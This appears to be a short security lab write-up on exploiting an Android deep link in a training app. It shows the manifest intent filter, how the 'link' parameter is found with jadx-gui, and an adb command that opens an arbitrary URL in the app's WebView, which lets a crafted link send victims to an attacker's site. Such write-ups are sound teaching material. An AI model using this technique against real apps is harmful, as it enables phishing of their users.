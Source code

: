 ## 1. Deep Links Overview

**Definition:** URLs that direct users to specific content within an app (e.g., `eck://trainingapp.com/profile`).

**Implementation:** Requires intent filters in the app’s `AndroidManifest.xml`.

## 2. Practical

By exploring the `AndroidManifest.xml` file, we found the following **WebViewActivity**:

```xml
<activity android:name="com.ecardsandkeys.activity.WebviewActivity">
    <intent-filter android:label="@string/app_name">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:host="trainingapp.com" android:scheme="eck"/>
    </intent-filter>
</activity>
```

## 3. URL Pattern

```
scheme://host/prepath/param1/param2=value  // Pattern
eck://trainingapp.com/?link="https://www.xyz.com"
```

## 4. Find the Parameter

Using `jadx-gui`, navigate to `WebViewActivity`. Only one parameter found: `link`.
![image](https://github.com/user-attachments/assets/1ee5b0d2-46d1-4caa-a9f1-0a8e4895f2dc)


## 5. Exploit the Deeplink Issue

The following command opens Google search inside the app. A malicious user can craft a custom URL/schema and share it with a victim — when clicked, the victim is navigated to an attacker-controlled website.

```
adb shell am start -W -a android.intent.action.VIEW -d "eck://trainingapp.com/?link=https://www.wavenet.co.uk"
```
![image](https://github.com/user-attachments/assets/acf98ddf-bf62-4f83-9aef-054c51c7338b)



